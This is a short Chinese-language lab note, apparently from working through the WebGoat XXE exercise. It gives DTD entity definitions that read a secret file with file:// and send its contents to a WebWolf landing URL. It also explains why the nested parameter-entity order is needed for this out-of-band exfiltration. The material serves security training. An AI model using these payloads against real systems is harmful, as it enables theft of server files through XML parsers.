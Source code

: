 ![](../images/Pasted%20image%2020241126184315.png)
评论需要随便写一条才会刷新
![](../images/Pasted%20image%2020241126184636.png)

然后就是让%file拼接在url后面访问

```dtd
<!ENTITY % sendtest SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file'>  
```

- **问题**：在这个定义中，`%file` 是一个外部实体，它的内容是从文件中读取的。由于 DTD 的解析机制，`%file` 在这里不会被解析为文件内容，而是被视为一个未解析的实体引用。
- **结果**：当您尝试使用 `sendtest` 实体时，`%file` 不会被替换为 `secret.txt` 的内容，因此 URL 将不包含您期望的文件内容。
为了实现您的目标，您需要使用一个中间步骤来确保 `%file` 的内容在构造 URL 时被正确解析。

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY test SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY % print "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file;'>">
```

%实体的调用顺序也不能改变
理解一下大概是先引用整个实体文件，有`%ls`才会看到dtd文件的访问记录
然后`%print`带过来`%send`的定义，最后才能使用`%send`
